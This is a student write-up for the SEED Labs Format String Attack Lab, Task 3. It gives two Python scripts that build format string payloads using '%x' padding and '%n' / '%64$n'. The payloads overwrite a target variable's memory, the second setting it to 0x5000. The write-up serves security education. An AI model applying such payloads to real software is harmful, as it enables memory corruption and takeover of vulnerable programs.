



# SEED Labs - Format String Attack Lab
## Task #3

### Task 3.A: Change the value to a different value

1. Write the payload to change the `target variable`
    - For this, we can do the same as in the previous task, but instead of printing the value, using the modifier "%n", which will take the target variable as the argument and modify it.

```python
#!/usr/bin/python3
import sys
payload = (0x080e5068).to_bytes(4, byteorder='little') + b"%x"*63 + b"%n"

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(payload)
```

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

### Task 3.B: Change the value to 0x5000 

In this task, we cannot write directly 20480 (0x5000 in decimal) to the address. Firstly, we have to write the target address to the payload, as in the previous examples and then, as the address are 4 Bytes, we write 20480 - 4 = `20476 Bytes`.

Note: The notation `%<n>$d` is just the same as applying the string formatter to the n-th value, but in a less exhaustive way.  

```python
#!/usr/bin/python3
import sys

payload = (0x080e5068).to_bytes(4, byteorder='little') + b"%20476x" + b"%64$n"

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(payload)
```

Terminal 1 | Terminal 2
:---------:|:---------:
 | 